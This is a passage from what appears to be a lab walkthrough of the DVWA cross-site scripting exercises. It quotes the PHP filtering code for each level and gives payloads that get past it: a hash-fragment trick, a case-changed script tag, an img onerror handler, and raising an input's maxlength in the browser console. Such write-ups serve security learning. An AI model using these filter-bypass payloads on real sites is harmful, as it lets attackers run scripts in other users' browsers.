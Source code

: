 ```php
            exit;
    }
}
?>	
```
We should avoid sending the payload to the server, for blacklisting, so, we use the `#`
**Attack :** English#<script>alert("hacked")</script>

# XSS REFLECTED
## Low 
**Attack :**  `<script>alert("hacked")</script>`
## Medium
Some level of filtering has been done this time,
```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
```
They have only replaced lowercase `<>`, which means, `<SCRIPT>` will work!	
**Attack :**  `<SCRIPT>alert("hacked")</SCRIPT>`
## High
Only script tags are being targetted by this programmer, use an img tag instead.
**Attack :** `<img src=x onerror=alert("hacked")>`

# XSS STORAGE
## Low 
**Attack :**  `<script>alert("hacked")</sript>` (in Message)
## Medium
Some level of filtering has been done in both input blocks, but the name tag has a weaker level of filtering.

```php
// Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
```
The strip_tags function is strong and removes all html, php tags. We can target the weaker `name` input field, but, the problem is the `name` field takes only 10 characters. To increase this number, 

* Ctrl + Shift + i
* Find the input tag of the `name` field in the console,
* Note, that it has a maxlength value set to 10, increase it to 50.
* Attack the `name` field.
